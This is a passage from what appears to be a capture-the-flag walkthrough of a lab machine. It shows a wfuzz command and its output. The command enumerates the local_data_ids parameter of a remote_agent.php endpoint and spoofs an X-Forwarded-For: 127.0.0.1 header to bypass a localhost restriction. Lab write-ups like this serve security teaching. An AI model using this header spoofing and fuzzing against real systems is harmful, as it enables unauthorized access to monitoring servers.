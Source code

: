     =====================================================================
    ID           Response   Lines    Word       Chars       Payload                                                                   
    =====================================================================

    000000001:   200        0 L      1 W        54 Ch       "1"                                                                       

    Total time: 0
    Processed Requests: 100
    Filtered Requests: 99
    Requests/sec.: 0



When I fuzz the `local_data_ids[0]`, it seems that 1-6 return different
data:



    oxdf@hacky$ wfuzz -u 'http://10.10.11.211/remote_agent.php?action=polldata&local_data_ids[0]=FUZZ&host_id=1&poller_id=1' -H "X-Forwarded-For: 127.0.0.1" -z range,1-100 --hh 2
    ********************************************************
    * Wfuzz 3.1.0 - The Web Fuzzer                         *
    ********************************************************

    Target: http://10.10.11.211/remote_agent.php?action=polldata&local_data_ids[0]=FUZZ&host_id=1&poller_id=1
    Total requests: 100

    =====================================================================
    ID           Response   Lines    Word       Chars       Payload
    =====================================================================

    000000003:   200        0 L      1 W        54 Ch       "3"
    000000001:   200        0 L      1 W        54 Ch       "1"
    000000005:   200        0 L      1 W        63 Ch       "5"
    000000002:   200        0 L      3 W        78 Ch       "2"
    000000006:   200        0 L      1 W        55 Ch       "6"
    000000004:   200        0 L      1 W        66 Ch       "4"                                                                       

    Total time: 8.803886
    Processed Requests: 100
    Filtered Requests: 94
    Requests/sec.: 11.35861



I can take this request over to Repeater and play with it. I can
actually submit all six in one request:
